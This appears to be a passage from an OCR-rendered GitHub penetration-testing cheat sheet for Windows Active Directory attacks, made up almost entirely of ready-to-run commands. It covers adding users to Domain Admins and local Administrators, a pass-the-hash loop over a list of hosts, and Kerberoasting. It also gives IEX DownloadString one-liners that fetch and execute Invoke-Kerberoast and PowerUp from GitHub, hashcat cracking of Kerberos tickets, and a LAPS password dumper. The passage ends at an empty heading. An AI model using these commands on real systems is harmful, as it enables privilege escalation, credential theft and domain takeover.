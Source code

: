 `net group "Domain Admins" username /ADD /DOMAIN`

### Add Local Admin
`net user username password /ADD`

`net localgroup Administrators username /ADD`


### Tasklist scraper to find logged in admins

If powershell not enabled or unable to run BloodHound this script will find admins.

`#!/bin/sh`

`for ip in $(cat ip.txt);do`

`pth-winexe -U Admin%hash //$ip "ipconfig"`

`pth-winexe -U Admin%hash //$ip "tasklist /v"`

`done`

### Kerberoasting

`Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat`

https://raw.githubusercontent.com/xan7r/kerberoast/master/autokerberoast.ps1

Invoke-AutoKerberoast

`python autoKirbi2hashcat.py ticketfilefromautoinvokekerberoast`

`IEX (New-Object Net.WebClient).DownloadString('https://github.com/EmpireProject/Empire/raw/master/data/module_source/credentials/Invoke-Kerberoast.ps1'); Invoke-Kerberoast`

### Hashcat Alienware - kerbtgt hash cracking

`sudo apt-get install nvidia-367`

`sudo nvidia-smi`

`reboot`

`sudo hashcat -I`

`hashcat -m 13100 kerb.txt ~/Downloads/realuniq.lst` 

### LAPS - GetLAPSPasswords

https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1

## Priv Esc
### Powerup

`IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellEmpire/PowerTools/raw/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks`

## File Transfer
